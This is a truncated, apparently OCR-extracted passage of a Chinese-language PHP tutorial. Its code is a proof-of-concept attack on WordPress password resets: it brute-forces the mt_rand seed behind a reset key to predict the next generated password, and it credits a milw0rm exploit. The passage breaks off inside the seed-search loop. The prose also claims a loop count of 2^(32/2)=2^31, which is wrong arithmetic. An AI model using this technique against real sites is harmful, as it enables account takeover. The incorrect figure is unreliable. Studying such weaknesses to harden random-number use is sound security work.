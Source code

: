 ``` php
```
  
通过上面的代码发现$a==$b，所以我们循环的次数为2^(32/2)=2^31次。我们看如下代码：
  
``` php
  
<?php
  
//base on http://www.milw0rm.com/exploits/6421 
  
//test on php 5.2.0
  

  
define('BUGGY', 1); //上面代码$a==$b时候定义BUGGY=1
  

  
$key = wp_generate_password(20, false);
  
echo $key."\n";
  
$seed = getseed($key);
  
print $seed."\n"; 
  

  
mt_srand($seed);
  
$pass = wp_generate_password(20, false);
  
echo $pass."\n";        
  
        
  
function wp_generate_password($length = 12, $special_chars = true) {
  
        $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
  
        if ( $special_chars )
  
                $chars .= '!@#$%^&*()';
  

  
        $password = '';
  
        for ( $i = 0; $i < $length; $i++ )
  
                $password .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);
  
        return $password;
  
} 
  

  
function getseed($resetkey) {
  
        $max = pow(2,(32-BUGGY));
  
        for($x=0;$x<=$max;$x++) {
  
```